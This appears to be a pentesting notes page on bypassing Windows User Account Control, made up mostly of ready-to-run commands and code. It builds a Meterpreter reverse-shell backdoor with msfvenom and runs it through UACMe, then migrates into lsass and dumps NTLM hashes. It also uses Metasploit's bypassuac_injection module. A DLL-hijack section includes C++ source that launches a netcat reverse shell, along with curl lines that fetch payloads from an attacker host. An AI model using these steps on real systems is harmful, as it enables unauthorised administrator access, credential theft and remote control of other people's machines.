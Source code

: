 # UAC Bypass

**UAC (User Account Control)** is a Windows security features that is used to prevent unauthorized changes from being made to the OS



## UACIMe

**UACMe** is an open source, robust privilage escalation tool. It can be used to bypass windows UAC by leveraging varius techniques



<details>

<summary>Backdor w/ Metasploit Scenario</summary>

```bash
# Create a backdoor with msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > backdoor.exe
```

```bash
# Set up msf listener
service postgresql start && msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $IP
set LPORT $PORT 
run
```

{% code overflow="wrap" %}
```bash
# Create 'Temp' dir on target machine (best folder for payloads)
cd C:\\
mkdir Temp

# Upload the payload on the Temp dir (meterpreter session)
upload backdoor.exe

# Upload the UACMe tool on the target
# https://github.com/hfiref0x/UACME
upload PATH/TO/UACME/Akagi64.exe

# Open Shell
shell

# Use the tool
.\Akagi64.exe KEY C:\Temp\backdoor.exe
## The key is a flag to decide what type of operation the tool do to bypass UAC (23 is the most used)
```
{% endcode %}

```bash
# shell's been open in msf listener (multi/handler)

# check privilege
getprivs

# Migrate windows privilages 
ps -s lsass.exe 
migrate PID

# Make a NTML hashdump 
hashdump
```

</details>





## Metasploit UAC Bypass

{% code title="Metasploit PrivEsc" %}
```bash
service postgresql start && msfconsole
use exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
set SESSION SESSION
set LPORT PORT
set TARGET Windows\ x64 
run
```
{% endcode %}



## UAC Bypass - Windows Defender avasion&#x20;

**Summary:** It's possible to trick Windows by creating a folder named `c:\windows\System32\`. You can place a Windows binary (with auto-elevated privileges) there and perform DLL hijacking. For a comprehensive list of binaries vulnerable to this, refer to the provided resource.

### Transfer Netcat to target system

<pre class="language-bash"><code class="lang-bash"><strong># attack machine
</strong><strong>cp /usr/share/windows-binaries/nc.exe .
</strong>python -m SimpleHTTPServer 80

# target machine 
curl http://ATT_IP/ncat.exe -o C:\Temp\ncat.exe
</code></pre>

### Create DLL to hijack

Create a DLL that establish a RevShell when it will loads by a application.

{% code title="example.cpp" %}
```cpp
#include <windows.h>


void exec_custom()
{
	WinExec("c:\\users\\hugo\\Desktop\\ncat.exe -e cmd.exe 10.8.211.1 49732", 1);
}

bool APIENTRY DllMain( HMODULE hModule,
			DWORD ul_reason_for_call,
			LPVOID lpReserved
		)
{
	switch(ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
		exec_custom();
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return true;
}
```
{% endcode %}

Then, compile the program to create the `.dll` file.

```bash
x86_64-w64-mingw32-gcc -shared -o Secur32.dll example.cpp
```

### Create a "Trusted" folder&#x20;

Create the follow directory as "Trusted" folder:

```powershell
mkdir "C:\Windows \"
mkdir "C:\Windows \System32\"
```

We place the elevated executable `computerdefaults.exe` in that directory, which uses `Secur32.dll`. Next, we download our custom `Secur32.dll` and place it in `C:\Windows \System32\`.

<pre class="language-powershell"><code class="lang-powershell">copy "C:\Windows\System32\computerdefaults.exe" "C:\Windows \System32\computerdefaults.exe"

curl http://ATT_IP/Secur32.dll -o "C:\Windows \System32\Secur32.dll"
<strong>
</strong><strong>"C:\Windows \System32\computerdefaults.exe"
</strong></code></pre>

After executing `"C:\Windows \System32\computerdefaults.exe"` our reverse shell connects, and we obtain a administrator shell.





## Resources

{% embed url="https://notes.morph3.blog/windows/uac-bypass" %}

